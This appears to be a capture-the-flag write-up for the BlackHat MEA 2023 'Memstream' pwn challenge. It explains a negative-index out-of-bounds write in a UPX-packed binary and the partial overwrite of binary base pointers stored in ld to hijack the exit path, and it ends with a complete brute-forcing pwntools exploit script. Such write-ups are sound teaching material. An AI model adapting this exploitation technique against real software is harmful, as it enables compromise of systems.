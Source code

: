 # BlackHatMea23 Memstream
# Memstream
Memstream was the second pwn challenge in the event. it was medium difficulty. Here is the source code:

After running checksec on the binary, it shows that the binary is packed with UPX:


itay@itay-Vortex-G25-8RD:~/Desktop/mystuff/mystuff/blackhat/pwn/second/player$ checksec --file=memstream
[!] Did not find any GOT entries
[*] '/home/itay/Desktop/mystuff/mystuff/blackhat/pwn/second/player/memstream'
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
    Packer:   Packed with UPX
We can see that the binary is with No Relro, and without stack canary.

Now, let’s look for vulnerabilities.

The binary consists of a simple main menu.

We can seek , which lets us change an index g_cur, in a global array.

We can write, which will write to g_buf[g_cur].

The vulnerability is simple. When seeking, it doesn’t check if our value is minus. This basically gives us an OOB write primitive.

There is not a read option, which hints that our solution should be without any leaks.

Exploitation
With my OOB write, I was thinking what can I overwrite. I saw in GDB, that when running our memstream binary, it is not loaded in 0x55***000 as usual, but in 0x7ff****000, which means it has been mmaped (UPX binaries are weird)

/blackhatmea/image-1.png

This means that it is a constant offset from our dynamic libaries (i.e ld). With that in mind, we can overwrite anything we want from there.

One thing I knew, is that ld stores the binary base address in its writable segment. Then, when exiting the program, it will jump to the memory inside that address + 0x3d88:

https://github.com/itaybel/Weekly-CTF/assets/56035342/0844b927-c56d-4515-b14a-41320393bb8a

If rax is *(0x7ffff7fef2e0) = 0x7ffff7ff7000, it will do call [rax + 0x3d88], which under normal circumstances is __do_global_dtors_aux.

So , we can control rax, to be whatever we want, and then it will jump to whats inside that address + 0x3d88.

After a quick search, I found out that the win function isn’t written in any location inside the memory of that binary, so we should write somewhere ourselves.

As seen in the previous screenshot, there is a second binary base address located in ld.

So, I partially overwrote it, to point to our win function. then , with our second write, I overwrote the second binary base to point to first_binary_base - 0x3d88, which will jump to main!

One thing to notice is that when we partially overwrite the base to point to the win function, we’ll need to bruteforce one nibble. the offset of the win function is 0x1229, and we can know just the 3 first nibbles of the base.

In my script I overwrote it to be 0x8229:


	offset_base2 = 0x5a28
	seek(-offset_base2)
	win_offset = 0x8229
	write(2, p16(win_offset))
Then, the same issue occurs when we partially overwrite the second base address, I just guessed 0x5638:

	offset_base_win = 0x5d80
  seek(-offset_base_win)
	write(2, p16(0x5638 - 0x3d88))
	write(-1, "b") #trigger exit
In total, we bruteforced 2 nibbles, and each one has a 1/16 success rate. so we will have 1/16*1/16=1/256 success rate.

Here is my final script, which will be need to run multiple times to succeed:

from pwn import *


def seek(offset):
	p.recvuntil("> ")
	p.sendline("1")
	p.sendline(str(offset))

def write(size, payload):
	print(p.recvuntil("> "))
	p.sendline("3")
	print(p.recvuntil(": "))
	p.sendline(str(size))
	print(p.recvuntil(": "))
	p.send(payload)



while True:
	p = process("./memstream")

	offset_base_win = 0x5d80
	offset_base2 = 0x5a28


	seek(-offset_base2)
	win_offset = 0x8229
	write(2, p16(win_offset))

	seek(-offset_base_win)
	write(2, p16(0x5638 - 0x3d88))
	write(-1, "b")

	try:
		p.sendline("ls")
		print(p.recv())
		#p.interactive()
	except:

		p.close()
		continue
	finally:
		p.interactive()
